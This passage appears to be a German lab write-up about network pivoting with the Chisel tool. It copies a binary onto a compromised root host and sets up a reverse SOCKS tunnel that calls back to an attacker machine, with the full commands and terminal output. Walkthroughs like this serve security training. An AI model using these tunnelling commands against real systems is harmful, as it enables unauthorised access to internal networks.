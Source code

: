 Wir laden uns mal eine Chisel Binary [hier](https://github.com/jpillora/chisel/releases) runter. 

Danach werfen die entsprechende Version auf den Zielhost:

>scp -i root_wreath chisel_1.9.1_linux_amd64 root@10.200.105.200:/tmp/chisel-akcoding

Die Chisel Binary hat zwei Modes - Client und Server.

Wir schauen uns zwei Einsatzmöglichkeiten für Chisel an, SOCKS und Portwarding. 

### Reverse SOCKS Proxy

Wir werden jetzt einen Reverse SOCKS Proxy einrichten. Dieser verbindet sich zurück zu unserer Angreifer Maschine auf dem ein Listener wartet. 

Auf unserer Maschine führen diesen Befehl aus:

>/chisel_1.9.1_linux_amd64 server -p 1337 --reverse &

und auf dem Zielhost:

>./chisel-akcoding client 10.50.106.147:1337 R:socks &

```cmd
┌──(akwa㉿kali)-[~/Github/wreath]
└─$ ./chisel_1.9.1_linux_amd64 server -p 1337 --reverse &
[1] 50422
                                                                                                                                                                                                           
2024/05/13 11:07:29 server: Reverse tunnelling enabled
2024/05/13 11:07:29 server: Fingerprint KA6+xAoB6UKNksOw70khEj8H4W2wwfvAd2BZJXKzPek=
2024/05/13 11:07:29 server: Listening on http://0.0.0.0:1337
┌──(akwa㉿kali)-[~/Github/wreath]
└─$ 2024/05/13 11:07:36 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening

-------------

[root@prod-serv tmp]# ./chisel-akcoding client 10.50.106.147:1337 R:socks &
[1] 2922
[root@prod-serv tmp]# 2024/05/13 10:07:34 client: Connecting to ws://10.50.106.147:1337
2024/05/13 10:07:34 client: Connected (Latency 47.562993ms)
```

Erwähnenswert hier ist, obwohl sich der Zielhost auf Port 1337 zurück verbindet, wurde der aktuelle Proxy auf Port 1080 geöffnet. Durch diesen werden wir auch den Datenverkehr schicken. 

Außerdem muss noch das R:socks erwähnt werden. Dieser Prefix steht für *remote*. Im Prinzip teilen wir dem Client damit mit, dass der Server erwartet, dass die Weiterleitungen alle auf der Clientseite stattfinden sollen. 

### Forward SOCKS Proxy

Im Gegensatz zu Reverse Proxys sind Foward Proxys eher selten, vergleichbar mit Reverse Shells und Binding Shells.
Der Grund dafür liegt meist darin, dass ausgehende Firewall Regeln meistens weniger streng sind als Firewalls, die eingehende Regeln behandeln. Dennoch ist es sinnvoll, sich auch den Forward SOCKS Proxy anzusehen. 
